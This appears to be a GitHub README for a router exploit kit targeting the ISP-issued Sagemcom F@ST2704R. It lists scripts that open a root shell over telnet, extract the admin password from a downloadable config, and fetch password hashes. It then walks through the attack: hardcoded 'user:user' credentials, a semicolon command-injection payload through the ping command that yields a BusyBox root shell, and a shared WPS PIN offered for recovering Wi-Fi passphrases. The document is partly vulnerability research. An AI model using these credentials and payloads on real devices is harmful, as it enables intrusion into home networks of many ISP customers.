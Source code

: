 # F@ST2704R has a root shell for everybody!

### What is it?

Basically, if you don't know the admin password of your **SagemCom F@st2704R** router, you can still get a root shell with the user account's hardcoded password.


### Included
`root.sh` is a simple shell script that provides the root shell. It interracts with telnet on **port 23**.

`admin.py` is a python script that downloads the router's configuration file and extracts the admin password. You don't need to crack `/etc/passwd` anymore! It interracts with the web interface on **port 80**

`getHashes.sh` uses the same login principle as **root.sh** but automatically downloads the remote /etc/passwd file in a local directory instead of letting the user interact with the shell. ~~You can later crack the DES hashes with a password cracking tool.~~ You can use `admin.py` instead if the web service is running on the device.

`lsFileList.txt` is the complete list of files on the device.

### Usage

`$./root.sh [target=192.168.1.1]` to get a root shell

`$python admin.py [target=192.168.1.1]` to find admin's password

~~`$./getHashes.sh [target=192.168.1.1]` to save password hashes. John the Ripper will require sudo on a lot of distro~~ **getHashes.sh is no longer necessary. It is still available for the hashes lovers around here, but admin.py is much more efficient to find the admin password**

## Long story short

I went back to my parent's place for a few days. I had quite a surprise: they replaced the Cisco router I got them by a **Sagemcom F@ST2704R** . When I asked them why, they told me the local ISP gave **F@ST2704R** to all their clients in the area. Knowing that was quite a lot of clients I decided to take a look at the device.

### So... How is it?

Telnet and ssh is activated by default on the LAN. The admin password is a string of 4 lowercase letters.

**Update: The ISP also gave all their clients the same WPS PIN. Try to aquire the WPA passphrase with PIN 76229909**

I logged on telnet to discover that the provided shell was somewhat limited. Trying basic unix commands would lead to an error.

```
> ls
telnetd:error:774.006:processInput:406:unrecognized command ls
```

Let's see what we have

```
> help
?
help
logout
exit
quit
reboot
adsl
xdslctl
xtm
brctl
cat
loglevel
logdest
virtualserver
ddns
df
dumpcfg
dumpmdm
dm
meminfo
psp
kill
dumpsysinfo
dnsproxy
syslog
echo
ifconfig
ping
ps
pwd
sntp
sysinfo
tftp
wlctl
arp
defaultgateway
dhcpserver
dns
lan
lanhosts
passwd
ppp
restoredefault
route
save
swversion
uptime
cfgupdate
swupdate
exitOnIdle
wan
mcpctl
```


No ls, no cd... I would need more than that. Still, I got cat!
From there, I grab the `/etc/passwd` file. There were 2 users I found interesting.

```
support:5IkwiJv9RNzV.:0:0:Technical Support:/:/bin/sh
user:75bUXAuHldJ82:0:0:Normal User:/:/bin/sh
```

We can see their UID and GID is 0. This isn't standard for a user account. Cracking the hashes with john, we find the credentials are

```
support:support
user:user
```

Trying to log with the support account leads to a dead end, access is denied for some reason. 
This is not the case with the "user" account. Typing help in the user prompt gives us a really short list of commands that can be used by the user account.

**Update: After some tests, it seems like the support account is blocked from LAN**

```
> help
?
help
logout
exit
quit
reboot
dnsproxy
ping
lanhosts
passwd
restoredefault
save
swversion
uptime
cfgupdate
swupdate
exitOnIdle
wan
```

### Let's explore the firmware for more info!

Unfortunately, the F@ST2704R firmware is not available to download, but [the F@ST2704 is](http://support.sagemcom.com/site/mo/broadband-access-9/sagemcom-f-st-2704-etisalat-1035/driver). It can't be THAT different eh?
wget this stuff, and binwalk the shit out of it!

Not so surprisingly, the binairies we want exist in the `/bin/` folder, the shell we're provided just can't get to it. We must break the jail.

### Breaking the jail

We have access to ping...

 ```
 > ping -c 1 127.0.0.1
PING 127.0.0.1 (127.0.0.1): 56 data bytes
64 bytes from 127.0.0.1: seq=0 ttl=64 time=0.866 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 packets received, 0% packet loss
round-trip min/avg/max = 0.866/0.866/0.866 ms
```

I wonder if... Let's try some semicolon magic!

```
> ls
telnetd:error:997.792:processInput:406:unrecognized command ls
 >
 >
 > ping -c 1 127.0.0.1 > /dev/null; ls
bin      etc      mnt      sbin     usr      webs-EN
data     lib      opt      sys      var      webs-FR
dev      linuxrc  proc     tmp      webs
```

Alright! this way I can get a real shell

```
 > ping -c 1 127.0.0.1 > dev/null; bash


BusyBox v1.17.2 (2013-09-30 17:48:17 CST) built-in shell (ash)
Enter 'help' for a list of built-in commands.

# 
```

 Using the username `user` and the default password `user` followed by this ping/semicolon loophole gives us access to a shell with administrative rights more easiy than brute-forcing the admin's password (default 4 letters, can be changed for another one up to 16 letters).
 
 Also, turns out any user can download the device's config file where the admin password is encoded with base64. Well that's security eh.

 **Automated shell script included!**  
 **Remember you still have to deal with squashfs read-only filesystem!**

 Honestly I didn't push my research really far. Maybe this has been documented before and maybe the firmware is available somewhere (I might dump it in a few days... or months… or years). If this is the case, contact me.

 ~ Mixbo www.wakowakowako.com

